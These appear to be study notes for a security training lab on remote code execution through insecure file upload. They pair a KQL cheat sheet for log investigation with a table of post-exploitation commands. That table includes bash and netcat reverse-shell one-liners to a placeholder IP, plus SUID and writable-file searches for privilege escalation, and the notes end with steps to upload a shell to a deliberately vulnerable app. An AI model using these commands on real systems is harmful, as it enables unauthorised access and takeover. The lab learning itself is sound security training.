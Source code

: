 # Notes for Day3

## Theme: **Remote Code Execution (via insecure file upload)**

## Links

- [Investigating with ELK 101](https://tryhackme.com/r/room/investigatingwithelk101)
- [Advanced ELK Queries](https://tryhackme.com/jr/advancedelkqueries)
- [Open Source Railway Management System](https://github.com/CYB84/CVE_Writeup/tree/main/Online%20Railway%20Reservation%20System)
  
## General

- KQL Cheat Sheet:

| Query/Syntax | Description                                                                                     | Example                             |
|--------------|-------------------------------------------------------------------------------------------------|-------------------------------------|
| `" "`        | The two quotation marks are used to search for specific values within the documents. Values in quotation marks are used for exact searches. | `"TryHackMe"`                      |
| `*`          | The asterisk denotes a wildcard, which searches documents for similar matches to the value provided. | `United*` (would return United Kingdom and United States) |
| `OR`         | This logical operator is used to show documents that contain either of the values provided.     | `"United Kingdom" OR "England"`    |
| `AND`        | This logical operator is used to show documents that contain both values.                      | `"Ben" AND "25"`                   |
| `:`          | This is used to search the (specified) field of a document for a value, such as an IP address. Note that the field you provide here will depend on the fields available in the index pattern. | `ip.address: 10.10.10.10`          |

- Some commands that can be run following a successful RCE exploit:
  
| Command                                          | Use                                                                                                  |
|--------------------------------------------------|------------------------------------------------------------------------------------------------------|
| `ls`                                             | Will give you an idea of what files/directories surround you.                                        |
| `cat`                                            | Outputs the contents of documents such as text files.                                                |
| `pwd`                                            | Shows your current location in the system.                                                          |
| `whoami`                                         | Displays the current user in the system.                                                            |
| `hostname`                                       | Shows the system name and potentially its role in the network.                                       |
| `uname -a`                                       | Provides system information like the OS, kernel version, and more.                                  |
| `id`                                             | Displays the groups assigned to the current user.                                                   |
| `ifconfig`                                       | Provides details about the system's network setup.                                                  |
| `bash -i >& /dev/tcp/<your-ip>/<port> 0>&1`      | Begins a reverse shell via Bash.                                                                    |
| `nc -e /bin/sh <your-ip> <port>`                 | Begins a reverse shell via Netcat.                                                                  |
| `find / -perm -4000 -type f 2>/dev/null`         | Finds SUID (Set User ID) files, useful in privilege escalation attempts.                            |
| `find / -writable -type f 2>/dev/null | grep -v "/proc/"` | Identifies writable files, often useful for privilege escalation attempts. |

- Install XAMPP
- Download RW Mgmt System
- Deploy MySQL Database
- Update file permissions on ORRS-PHP to allow web file uploads
- Upload shell
- Voila:

![An example image](Screenshot.png)

## Glossary

- **RCE**: Uploading a script that the server runs gives the attacker control over it.
- **XSS**: Uploading an HTML file that contains an XSS code which will steal a cookie and send it back to the attacker's server.
